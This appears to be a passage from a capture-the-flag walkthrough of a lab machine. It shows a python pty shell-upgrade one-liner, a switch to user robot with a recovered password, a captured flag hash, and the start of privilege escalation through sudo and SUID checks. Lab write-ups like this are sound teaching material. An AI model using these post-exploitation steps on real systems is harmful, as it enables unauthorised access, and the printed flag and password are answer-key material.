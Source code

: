 ### Switching to User `robot`

Okay!, we got the password for user `robot`, now let's switch to robot

```
daemon@linux:/$ su robot
su robot
su: must be run from a terminal
```

Oops, something is wrong here, we need to upgrade our shell, just run the following python code:

```
daemon@linux:~$ python -c 'import pty;pty.spawn("/bin/bash")'
python -c 'import pty;pty.spawn("/bin/bash")'
```

Let's try switching user one more time:

```
daemon@linux:~$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:/usr/sbin$ 
```

### Obtaining the second key:

It worked!!, now let's go and read the key file and get our second key:

```
robot@linux:/usr/sbin$ cd
cd
robot@linux:~$

robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
robot@linux:~$ 
```

## Privilege Escalation

Now for escalating our privileges, we'll check what programs can we run as sudo:

```
robot@linux:~$ sudo -l
sudo -l
[sudo] password for robot: 822c73956184f694993bede3eb39f959

Sorry, user robot may not run sudo on linux.
```

Okay, if user cannot run as sudo then let's search for programs that have suid set as root and can be run by any user:

